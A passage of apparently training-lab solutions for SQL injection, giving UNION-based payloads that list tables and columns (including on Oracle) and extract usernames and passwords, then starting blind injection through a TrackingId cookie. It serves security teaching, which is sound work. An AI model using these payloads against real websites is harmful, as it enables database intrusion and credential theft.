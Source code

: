 `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`

6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

8. Find the password for the administrator user, and use it to log in.

## SQL injection attack, listing the database contents on Oracle

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

`'+UNION+SELECT+'abc','def'+FROM+dual--`
3. Use the following payload to retrieve the list of tables in the database:

`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`

6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

`'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`
8. Find the password for the administrator user, and use it to log in.

## BLIND SQL INJECTION

## Blind SQL injection with conditional responses

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is TrackingId=xyz.
2. Modify the TrackingId cookie, changing it to:

`TrackingId=xyz' AND '1'='1`
Verify that the "Welcome back" message appears in the response.

3. Now change it to:

`TrackingId=xyz' AND '1'='2`
Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

4. Now change it to:
